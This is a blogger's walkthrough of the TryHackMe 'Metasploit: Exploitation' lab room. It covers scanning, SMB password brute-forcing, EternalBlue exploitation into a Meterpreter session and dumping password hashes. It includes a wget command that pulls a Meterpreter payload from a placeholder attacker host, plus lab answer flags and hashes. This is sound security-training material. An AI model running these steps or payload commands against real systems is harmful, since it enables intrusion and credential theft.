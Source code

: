 ```yaml
---
title: "Exploitation Basics: Metasploit: Meterpreter"
datePublished: Wed Oct 30 2024 17:07:52 GMT+0000 (Coordinated Universal Time)
cuid: cm2w4r1pb000009l10kc0dm44
slug: exploitation-basics-metasploit-meterpreter
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1730275933195/bfd40f3c-5037-4446-b612-ce173cbc2830.png
tags: exploit, tryhackme, metasploit, write-up

---
```


In this article, I will write a write-up for Metasploit: Exploitation that covers the Scanning, The Metasploit Database, Vulnerability Scanning, Exploitation, and Msfvenom.

I would be lying if I said going through this room was easy. I had to research some resources i.e. this [Medium Blog](https://medium.com/@jiteshofficial2004/tryhackme-metasploit-exploitation-easy-walkthrough-48d6db20cfbf)adds more step-by-step commands to run and this [YouTube channel](https://youtu.be/wJ7otbQrrtQ?si=G7P_EsOgGH1y8OHy) walks through the entire room including the discussions to help me understand how to get through different questions to get the right answer. I think Metasploit is interesting but this room might not be beginner-friendly, I hope I'll learn better using different resources with time.

1. How many ports are open on the target system? `5`
    
    ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1730276296743/fcc1d682-ab99-4c52-939f-a5a3758cb88a.png align="center")
    
2. Using the relevant scanner, what NetBIOS name can you see? `ACME IT SUPPORT`
    
    ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1730297805273/1d0d9c52-3e9e-4b39-ac99-5af29d860c7f.png align="center")
    
3. What is running on port 8000? `webfs/1.21`
    
    ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1730297886757/f47f1c6a-6e30-48ac-a677-8ed4c50e16fe.png align="center")
    
4. What is the "penny" user's SMB password? Use the wordlist mentioned in the previous task. `leo1234`  
    
5. Who wrote the module that allows us to check SMTP servers for open relay? `Campbell Murray`
    
    ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1730307917603/c42d94c4-b49a-4b69-be63-348d02d46782.png align="center")
    

Deploy the target machine and answer the questions below:

6\. Exploit one of the critical vulnerabilities on the target VM

7\. What is the content of the flag.txt file? `THM-5455554845`  
  
Follow the hint in question 6 that talks of `MS17-010` module. Check into the `msfconsole` then search this module then use 0 since it has `eternalblue` then set `LHOST` and `RHOST` then run exploit command this will open the `meterpreter` and we can now `search -f flag.txt`. It will show it’s path then you use `cat` to check the contents of the file (`flag.txt`)

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1730299168209/bd8f128e-e69b-4c33-a3d3-5548044cf346.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1730299139460/32896571-f337-4320-b14e-17805fd45d32.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1730299001674/ee46051b-c8f4-4f82-8eb0-c62b93b7beb1.png align="center")

8\. What is the NTLM hash of the password of the user "pirate"? `8ce9a3ebd1647fcc5e04025019f4b875`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1730307652606/9e063365-e25c-47b9-a283-859e03e8a7d7.png align="center")

9. Create a meterpreter payload in the .elf format (on the AttackBox, or your attacking machine of choice).  
    
10. Transfer it to the target machine (you can start a Python web server on your attacking machine with the python3 -m http.server 9000 command and use wget http://ATTACKING\_MACHINE\_IP:9000/shell.elf to download it to the target machine).
    
11. Get a meterpreter session on the target machine.
    
12. Use a post-exploitation module to dump hashes of other users on the system.
    
13. What is the other user's password hash? `$6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0`
    

Thank you for reading my article. Please leave any questions or comments on improving my learning journey and the THM challenges. We can also connect more on [**LinkedIn**](https://www.linkedin.com/in/sharon-jebitok) or [**X**](https://x.com/SharonJebitok)**.**
